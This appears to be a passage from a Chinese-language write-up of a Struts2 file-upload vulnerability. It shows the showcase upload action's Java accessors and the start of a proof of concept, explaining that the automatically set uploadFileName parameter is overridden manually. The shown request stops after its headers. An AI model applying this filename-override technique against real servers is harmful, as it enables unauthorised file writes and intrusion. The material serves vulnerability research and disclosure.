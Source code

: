 ```java
	public String getUploadContentType() {
		return contentType;
	}

	public void setUploadContentType(String contentType) {
		this.contentType = contentType;
	}


	// since we are using <s:file name="upload" ... /> the File itself will be
	// obtained through getter/setter of <file-tag-name>
	public File getUpload() {
		return upload;
	}

	public void setUpload(File upload) {
		this.upload = upload;
	}


	public String getCaption() {
		return caption;
	}

	public void setCaption(String caption) {
		this.caption = caption;
	}

        public long getUploadSize() {
            if (upload != null) {
                return upload.length();
            } else {
                return 0;
            }
        }
}

```



# POC及利用条件

POC： 

注意 `uploadFileName` 这是上面的代码中由Strust2自动赋值过来的参数，下面通过手动传递进行覆盖

```http
POST /struts2_showcase_war/fileupload/doUpload.action HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------21972861871679732823856174094
Content-Length: 472
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/struts2_showcase_war/fileupload/upload.action
Cookie: JSESSIONID=5B04BC8FA13D0717C172C4AF150FB093
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
```